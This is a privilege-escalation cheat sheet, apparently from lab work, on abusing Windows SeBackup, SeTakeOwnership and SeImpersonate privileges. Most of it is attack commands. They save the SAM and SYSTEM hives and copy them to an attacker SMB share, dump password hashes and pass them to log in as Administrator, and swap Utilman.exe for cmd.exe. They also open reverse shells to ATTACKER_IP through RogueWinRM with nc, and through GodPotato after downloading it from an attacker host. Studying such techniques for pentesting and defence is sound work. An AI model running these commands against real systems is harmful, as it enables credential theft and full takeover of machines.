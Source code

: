 # Abuse Privilege

```powershell
> whoami /priv
```

For a full list of privileges on Windows systems, refer [here](https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants). Attackers generally focus on those that enable system escalation. A detailed list of exploitable privileges is available on the [Priv2Admin GitHub project](https://github.com/gtworek/Priv2Admin).

## SeBackupPrivilege&#x20;

<figure><img src="../../../../../.gitbook/assets/image (182).png" alt=""><figcaption></figcaption></figure>

This privilege allows the user to read all the files in the system.

Let's create a Temp directory and move into it.

```powershell
mkdir C:\Temp
cd C:\Temp
```

Exploit this privilege to read SAM and SYSTEM file via query.

> The **`SAM` (Security Account Manager)** hive contains local user account and group membership information, including their hashed passwords.&#x20;
>
> The **`SYSTEM`** hive contains system-wide configuration settings, such as the system boot key required to decrypt the password hashes stored in SAM

We will use the reg save command to perform a command in the registry, specify the location of the hive, and save it to a file in the current directory with the appropriate name.

```powershell
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```

Now download the files to attacker machine

{% code title="evil-winrm shell" %}
```powershell
> download sam
> download system
```
{% endcode %}

<details>

<summary>SMB Server</summary>

{% code overflow="wrap" %}
```bash
impacket-smbserver -smb2support -username THMBackup -password CopyMaster555 public share
```
{% endcode %}

This will create a share named `public` pointing to the `share` directory, which requires the username and password of our current windows session. After this, we can use the `copy` command in our windows machine to transfer both files.

```bash
C:\> copy c:\Temp\sam \\ATTACKER_IP\public\
C:\> copy c:\Temp\system \\ATTACKER_IP\public\
```



</details>

Now we can use `pypykatz` to read the content or we can use these files to dump hash with the tool `impacket-secretsdump`

<details>

<summary>Get files content with pypykatz</summary>

In kali these files is unreadable, but we can extract the hive secrets from SAM and SYSTEM file using pypykatz.

> **pypykatz**
>
> Mimikatz implementation in pure Python.&#x20;
>
> [https://github.com/skelsec/pypykatz](https://github.com/skelsec/pypykatz)

```bash
pypykatz registry --sam sam system -o registry.dump
# registry: Get secrets from registry files
# --sam SAM: path to the SAM registry hive
```

Now in the file `registry.dump` we have this:

<figure><img src="../../../../../.gitbook/assets/image (184).png" alt=""><figcaption></figcaption></figure>

With hash of these account we can try to perform a PtH like this:

```bash
evil-winrm -i <IP> -u 'Administrator' -H '2b87e7c93a3e8a0ea4a581937016f341'
```

</details>

<details>

<summary>Dump hashes with impacket</summary>

```bash
impacket-secretsdump -sam sam -system system LOCAL
```

Use psexec to use the dumped credentials and take access to the target machine as administrator

{% code overflow="wrap" %}
```bash
impacket-psexec -hashes LM:NT administrator@MACHINE_IP
```
{% endcode %}

</details>



## SeTakeOwnership

The `SeTakeOwnership` privilege allows a user to take ownership of any object on the system, including files and registry keys, opening up many possibilities for an attacker to elevate privileges, as we could, for example, search for a service running as SYSTEM and take ownership of the service's executable.

The standard method to use this privilege is:

1. Start a CMD as administrator
2. Search a Windows Program that is run with SYSTEM privileges. (Utilman, ...)
3. Taking ownership of the legitimate binary with the following command

```powershell
takeown /f C:\Windows\System32\Utilman.exe
```

As a file owner, you don't automatically have full control over it. However, you can grant yourself the necessary permissions. To gain full rights over the legitimate binary chose, use this command:

```powershell
icacls C:\Windows\System32\Utilman.exe /grant $USER:F
```

4. Replace the original binary for any payload we like.

```bash
copy cmd.exe utilman.exe
```



## SeImpersonate / SeAssignPrimaryToken

These privileges allow a process to impersonate other users and act on their behalf. Impersonation usually consists of being able to spawn a process or thread under the security context of another user.

To use this privileges to elevate our privilege we can use these programs:

### RogueWinRM

{% embed url="https://github.com/antonioCoco/RogueWinRM" %}

```bash
# attacker machine
nc -lvp 4444

# target machine
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4444"
```

&#x20;

### GodPotato

{% embed url="https://github.com/BeichenDream/GodPotato" %}

Download the executable from the link above, and transfer it to a target machine.

<pre class="language-powershell"><code class="lang-powershell"># target machine
<strong>cd C:\ProgramData
</strong><strong>curl http://ATT_IP/godpotato.exe -o godpotato.exe
</strong><strong>
</strong><strong># attack machine 
</strong><strong>nc -lvpn 4444
</strong><strong>
</strong><strong># target machine
</strong><strong>.\godpotato.exe -cmd "cmd /c powershell -e REV_SHELL_PAYLOAD"
</strong></code></pre>

